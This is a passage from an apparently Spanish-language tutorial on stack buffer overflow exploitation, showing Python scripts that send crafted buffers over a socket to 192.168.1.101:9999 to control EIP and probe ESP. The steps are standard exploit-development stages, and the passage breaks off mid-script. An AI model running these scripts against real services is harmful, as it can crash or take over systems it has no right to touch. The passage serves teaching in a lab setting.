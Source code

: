 ```yml
    s.close()

except:
    print '[*] Conexion perdida'
    sys.exit()
```

## Cuarto / Controlando "EIP"
Una vez tomadno ya el offset necesitamos ir controlando los proximos salto de memoria a ello 
este script para el valor del EIP y su control.

```yml
import socket
import sys
from time import sleep 

"""
    Como calcular valor EIP:
        1. pattern_offset 0x+NUMERO_EIP
            >> Ejemplo >> 193856934387 found at offset: 955 (Valor del EIP = 755)
"""

# DEFINE AQUI EL NUMERO DE OFFSET (VALOR DEL EIP)
offset =  "A"*524
# DEFINE AQUI LA LETRA Y CANTIDAD A ENVIAR AL EIP
EIP = "B"*4
buffer = offset + EIP

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect(("192.168.1.101",9999))
    s.recv(1024)

    print "[*] Sending buffer"
    s.send(buffer + '\r\n')
    s.close()

except:
    print '[*] Conexion perdida'
    sys.exit()
```

## Quinto / Enviando "Junk"
En este punto ya queremos enviar basura para ver si llegamos al siguiente salto en la pila 
del binario.

```yml
import socket
import sys
from time import sleep 

"""
    Como calcular valor EIP:
        1. pattern_offset 0x+NUMERO_EIP
            >> Ejemplo >> 193856934387 found at offset: 955 (Valor del EIP = 755)
"""

offset =  "A"*524
EIP = "B"*4
# DEFINE AQUI LA JUNK QUE QUIERES ENVIAR AL ESP 
junk_ESP = "C"*400

```